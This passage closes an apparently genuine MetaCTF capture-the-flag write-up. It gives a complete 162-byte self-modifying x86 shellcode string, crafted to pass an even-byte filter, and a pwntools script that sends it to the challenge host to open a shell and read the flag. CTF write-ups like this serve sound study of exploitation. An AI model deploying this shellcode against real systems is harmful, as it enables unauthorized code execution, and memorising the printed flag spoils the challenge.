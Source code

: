```
\x6A\x30\x5E\x40\x80\xF6\x30\x56\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50\x54\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x90\x00\x66\x50\x58\xFE\x00\xB0\xA0\xFE\x00\xFE\xC0\xFE\x00\x5E\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30\xB0\x3A\xFE\xC0\x0E\x04
```
This string literal is the final product. 162 bytes in total. I could've designed code with the decremented bytes in place, but it loses meaning when trying to read it.

Now, we develop our pwntools script:

```py
from pwn import *
conn = remote("host1.metaproblems.com", 5480) #connect to the host
sc = b'\x6A\x30\x5E\x40\x80\xF6\x30\x56\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50\x54\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x90\x00\x66\x50\x58\xFE\x00\xB0\xA0\xFE\x00\xFE\xC0\xFE\x00\x5E\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30\xB0\x3A\xFE\xC0\x0E\x04'
conn.recvline() #recv "enter your shellcode line"
conn.sendline(sc) #send shell
conn.interactive() #go interactive to cat flag
```

We run it, get a shell on the host machine, cat the flag to complete the challenge!

`MetaCTF{eVEn_evEN_8y7e5_c4N_re4cH_0Dd_Re9157eRs}`

As a little aside, here's the self modification taking place in gdb/gef:

![image](./inst1.png)
![image](./inst2.png)
